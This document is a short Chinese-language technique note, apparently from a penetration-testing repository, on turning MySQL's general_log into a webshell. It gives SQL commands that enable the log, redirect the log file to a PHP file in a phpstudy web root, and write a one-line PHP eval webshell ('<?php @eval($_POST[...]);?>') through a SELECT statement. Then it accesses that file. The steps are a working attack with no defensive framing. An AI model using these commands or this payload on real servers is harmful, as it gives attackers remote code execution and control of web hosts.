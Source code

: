 general_log 默认关闭

开启它可以记录用户输入的每条命令，会把其保存在对应的日志文件中。可以尝试自定义日志文件，并向日志文件里面写入内容的话，那么就可以成功 getshell



查看当前配置

```
SHOW VARIABLES LIKE 'general%';
```

![image-20250603125030023](./assets/image-20250603125030023.png)



开启日志

```
SET GLOBAL general_log = 'on'
```

![image-20250603125038070](./assets/image-20250603125038070.png)



修改数据库日志文件路径

```
SET GLOBAL general_log_file = 'C:/phpstudy/WWW/ra1n3.php'
```

![image-20250603125053920](./assets/image-20250603125053920.png)



验证当前状态

```
SHOW VARIABLES LIKE 'general%'
```

![image-20250603125101552](./assets/image-20250603125101552.png)



尝试写入一句话木马

```
SELECT "<?php @eval($_POST['ra1n3']);?>"
```

![image-20250603125114746](./assets/image-20250603125114746.png)



访问ra1n3.php

![image-20250603125122924](./assets/image-20250603125122924.png)